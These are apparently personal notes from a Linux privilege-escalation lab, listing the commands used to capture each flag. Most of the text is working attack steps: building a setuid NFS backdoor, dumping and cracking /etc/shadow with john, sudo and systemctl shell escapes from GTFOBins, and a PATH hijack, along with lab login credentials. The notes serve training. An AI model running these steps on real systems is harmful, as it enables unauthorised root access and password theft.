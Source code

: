 
			--> option 2 : work ! 
				--> kali : 
					--> cd /tmp/backdoor
					--> nano nfs2.c 
					--> gcc -static nfs2.c -o nfs2
					--> chmod +s nfs2
				--> ssh
					--> cd /home/ubuntu/sharedfolder 
					--> ./nfs2

			--> root : 
				--> find / -name flag7.txt 2>/dev/null 
				--> cat ./home/matt/flag7.txt
		

## Capstone Challenge
		--> ssh leonard@10.10.176.55  | Penny123

### flag1 
			--> find / -type f -perm -04000 -ls 2>/dev/null 
			--> cat /etc/passwd
			--> /usr/bin/base64 /etc/shadow | /usr/bin/base64 -d 
			
			--> unshadow passwd Shadow | tee hash
			--> sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
			 	=> Password1        (missy)   
			=> ssh missy@10.10.176.55 Password1
				--> find / -name flag1.txt 2>/dev/null
### flag2 
			=> root
			--> sudo -l 
			--> https://gtfobins.github.io
			--> sudo find . -exec /bin/sh \; -quit
			--> find / -name flag2.txt 2>/dev/null	
### SUID 
			--> GTFOBins => systemctl
				=> 將“id > /tmp/output”更改為“sh -p”或“chmod +s /bin/bash”
					TF=$(mktemp).service
					echo '[Service]
					Type=oneshot
					ExecStart=/bin/sh -c "chmod +s /bin/bash"
					[Install]
					WantedBy=multi-user.target' > $TF
					systemctl link $TF
					systemctl enable --now $TF
### PATH  :
			--> find / -perm -u=s -type f 2>/dev/null
				=> /usr/bin/menu
			--> 運行二進位文件
				--> /usr/bin/menu
			--> Strings : 用於在二進位檔案中尋找人類可讀的字串
				--> Strings /usr/bin/menu	
					=> found that curl use 	不完整路徑
						=> curl -I localhost
### 不指定完整路徑
			--> 系統將查看 PATH 變數並在路徑中指定的所有位置中搜尋所需檔案
			--> export PATH=/tmp:$PATH
			